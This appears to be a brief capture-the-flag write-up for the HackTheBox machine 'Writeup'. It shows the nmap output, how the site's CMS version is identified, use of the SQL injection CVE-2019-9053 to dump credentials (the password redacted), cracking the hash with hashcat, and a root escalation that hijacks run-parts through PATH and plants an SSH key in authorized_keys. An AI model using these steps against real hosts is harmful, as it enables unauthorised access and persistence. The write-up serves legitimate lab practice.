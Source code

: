 Started with a nmap scan
```
22 OpenSSH 9.2p1
80 Apache httpd 2.4.25
```
We cannot fuzz the webpage or subdomain because we will get ip banned from the site but in the nmap scan it showed a `robots.txt` file which had one entry in it `/writeup/` when we go to the writeup folder and if we open the source for the page it says its `CMS Made Simple` and googling the source of the site we can see how the folders work and there is a doc folder with a `CHNAGELOG.txt` that gives us the version of the cms `2.2.12` and there is a exploit for SQL injection `CVE-2019-9053` and if we don't put the `/wrietup/` we will get banned 
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: .........................
```
and we can use hashcat to crack the hash with mode `20` pass first then salt and it cracked to `.................` and we can use this to login into SSH we can modify the path and make a file in the `/usr/local/bin` called `run-parts` and add this to the file we made and now we can ssh into the host as root
```
!#/bin/bash

touch /tmp/test
mkdir ~/.ssh
echo 'ssh-rsa SSH KEY ' >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
